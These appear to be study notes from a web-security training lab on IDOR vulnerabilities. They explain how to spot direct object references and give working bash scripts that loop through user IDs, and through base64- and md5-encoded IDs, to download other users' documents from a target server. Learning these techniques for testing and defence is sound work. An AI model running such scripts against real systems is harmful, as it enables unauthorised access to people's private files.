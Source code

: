 ## delete


# IDOR
IDOR is among the most common web vulnerabilities and can lead to accessing data that should not be accessible by attackers. What makes this attack very common is essentially the lack of a solid access control system on the back-end. As web applications store users' files and information, they may use sequential numbers or user IDs to identify each item. Suppose the web application lacks a robust access control mechanism and exposes direct references to files and resources. In that case, we may access other users' files and information by simply guessing or calculating their file IDs.

# Identifying IDORs
## URL Parameters & APIs
The very first step of exploiting IDOR vulnerabilities is identifying Direct Object References. Whenever we receive a specific file or resource, we should study the HTTP requests to look for URL parameters or APIs with an object reference (e.g. ?uid=1 or ?filename=file_1.pdf). These are mostly found in URL parameters or APIs but may also be found in other HTTP headers, like cookies.

In the most basic cases, we can try incrementing the values of the object references to retrieve other data, like (?uid=2) or (?filename=file_2.pdf). We can also use a fuzzing application to try thousands of variations and see if they return any data. Any successful hits to files that are not our own would indicate an IDOR vulnerability.

## AJAX Calls
We may also be able to identify unused parameters or APIs in the front-end code in the form of JavaScript AJAX calls. Some web applications developed in JavaScript frameworks may insecurely place all function calls on the front-end and use the appropriate ones based on the user role.

For example, if we did not have an admin account, only the user-level functions would be used, while the admin functions would be disabled. However, we may still be able to find the admin functions if we look into the front-end JavaScript code and may be able to identify AJAX calls to specific end-points or APIs that contain direct object references. If we identify direct object references in the JavaScript code, we can test them for IDOR vulnerabilities.

## Understand Hashing/Encoding
Some web applications may not use simple sequential numbers as object references but may encode the reference or hash it instead. If we find such parameters using encoded or hashed values, we may still be able to exploit them if there is no access control system on the back-end.

## Compare User Roles
If we want to perform more advanced IDOR attacks, we may need to register multiple users and compare their HTTP requests and object references. This may allow us to understand how the URL parameters and unique identifiers are being calculated and then calculate them for other users to gather their data.

# Mass Enumeration
We can click on [CTRL+SHIFT+C] in Firefox to enable the element inspector, and then click on any of the links to view their HTML source code.

We can pick any unique word to be able to grep the link of the file. In our case, we see that each link starts with <li class='pure-tree_link'>.

## GET method to find resources
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

## POST method to find resources
```bash
#!/bin/bash

# Base URL
base_url="http://94.237.49.212:52909"

# User-Agent string for curl
user_agent="Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"

# Loop through uid from 1 to 20
for uid in {1..20}; do

  echo "Fetching documents for uid=$uid..."

    # Make the POST request and extract file paths
  files=$(curl "${base_url}/documents.php" --compressed -X POST \

    -H "User-Agent: ${user_agent}" \

    -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \

    -H "Accept-Language: en-US,en;q=0.5" \

    -H "Accept-Encoding: gzip, deflate" \

    -H "Content-Type: application/x-www-form-urlencoded" \

    -H "Origin: ${base_url}" \

    -H "Connection: keep-alive" \

    -H "Referer: ${base_url}/" \

    -H "Upgrade-Insecure-Requests: 1" \

    --data-raw "uid=${uid}" | grep -oP "\/documents.*?\.(pdf|doc|docx|txt|xlsx|xls|ppt|pptx)")

  # Download each file found

  for file in $files; do

    file_url="${base_url}${file}"

    echo "Downloading $file_url..."

    wget -q "$file_url" -P downloaded_files

  done

done


echo "Download process complete."
```

# Bypassing Encoded References
## GET method to find resources
```bash
#!/bin/bash
for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0 | tr -d ' -'); do
        curl -sOJ "http://94.237.49.212:52909/download.php?contract=$hash"
    done
done
```

**POST method to find resources**
```bash
#!/bin/bash
for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

**Cat files content**
```bash
#!/bin/bash
# Loop through all files in the current directory
for file in *; do
    # Check if the file starts with "contract"
    if [[ -f "$file" && "$file" == contract* ]]; then
        echo "Contents of $file:"
        cat "$file"
        echo ""  # Add a newline for better readability between file contents
    fi
done
```

## IDOR in Insecure APIs
Intercept a request in Burp.

- Change unique objects identifiers GET/POST
- Forward every request to map endpoints
- Change different parameters(role) 
- Perform HTTP Verb Tampering


